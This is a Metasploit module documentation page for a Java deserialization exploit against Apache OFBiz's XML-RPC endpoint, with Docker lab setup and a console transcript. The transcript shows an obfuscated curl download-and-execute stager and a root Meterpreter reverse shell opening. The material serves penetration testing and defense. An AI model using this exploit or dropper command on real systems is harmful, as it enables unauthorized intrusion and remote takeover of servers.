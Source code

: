 ## Vulnerable Application

### Description

This module exploits a Java deserialization vulnerability in Apache
OFBiz's unauthenticated XML-RPC endpoint `/webtools/control/xmlrpc` for
versions prior to 17.12.04.

### Setup

#### 15.12

You can use <https://hub.docker.com/r/opensourceknight/ofbiz>.

1. Initialize the database with demo data (`INIT_DB=2`) and bind to ports 8080 and 8443
    * `docker run -p 8080:8080 -p 8443:8443 --rm -e INIT_DB=2 opensourceknight/ofbiz:15.12`

#### 18.12.09

`docker run -p 8080:8080 -p 8443:8443 --rm -e INIT_DB=2 opensourceknight/ofbiz:18.12`

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Scenarios

### Apache OFBiz from [Docker](#setup).

```
msf6 > use exploit/linux/http/apache_ofbiz_deserialization
[*] Using configured payload linux/x64/meterpreter_reverse_https
msf6 exploit(linux/http/apache_ofbiz_deserialization) > options

Module options (exploit/linux/http/apache_ofbiz_deserialization):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8443             yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter_reverse_https):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The local listener hostname
   LPORT  8443             yes       The local listener port
   LURI                    no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(linux/http/apache_ofbiz_deserialization) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set lhost 192.168.1.7
lhost => 192.168.1.7
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set srvport 8888
srvport => 8888
msf6 exploit(linux/http/apache_ofbiz_deserialization) > run

[*] Started HTTPS reverse handler on https://192.168.1.7:8443
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Target can deserialize arbitrary data.
[*] Executing Linux Dropper for linux/x64/meterpreter_reverse_https
[*] Using URL: http://0.0.0.0:8888/AGB4cD
[*] Local IP: http://10.3.227.250:8888/AGB4cD
[*] Generated command stager: ["curl${IFS}-so${IFS}/tmp/fNZHtLgv${IFS}http://192.168.1.7:8888/AGB4cD;chmod${IFS}+x${IFS}/tmp/fNZHtLgv;/tmp/fNZHtLgv;rm${IFS}-f${IFS}/tmp/fNZHtLgv"]
[*] Executing command: sh -c curl${IFS}-so${IFS}/tmp/fNZHtLgv${IFS}http://192.168.1.7:8888/AGB4cD;chmod${IFS}+x${IFS}/tmp/fNZHtLgv;/tmp/fNZHtLgv;rm${IFS}-f${IFS}/tmp/fNZHtLgv
[*] Client 192.168.1.7 (curl/7.38.0) requested /AGB4cD
[*] Sending payload to 192.168.1.7 (curl/7.38.0)
[+] Successfully executed command: sh -c curl${IFS}-so${IFS}/tmp/fNZHtLgv${IFS}http://192.168.1.7:8888/AGB4cD;chmod${IFS}+x${IFS}/tmp/fNZHtLgv;/tmp/fNZHtLgv;rm${IFS}-f${IFS}/tmp/fNZHtLgv
[*] https://192.168.1.7:8443 handling request from 192.168.1.7; (UUID: btpun2w7) Redirecting stageless connection from /1fY1FTBqS3Z81nrUI-E3VQ3E-Kqn5Kx4lP2cAzF4bmUgveaMUNylCEh1ohulKhz1fERPwYd8u4DAauCLZ8UDm5JaB7P with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] https://192.168.1.7:8443 handling request from 192.168.1.7; (UUID: btpun2w7) Attaching orphaned/stageless session...
[*] Command Stager progress - 104.14% done (151/145 bytes)
[*] Meterpreter session 1 opened (192.168.1.7:8443 -> 192.168.1.7:61375) at 2020-08-14 21:42:11 -0500
[*] Server stopped.

meterpreter > getuid
Server username: root @ 09d1564c6b2c (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 8.4 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
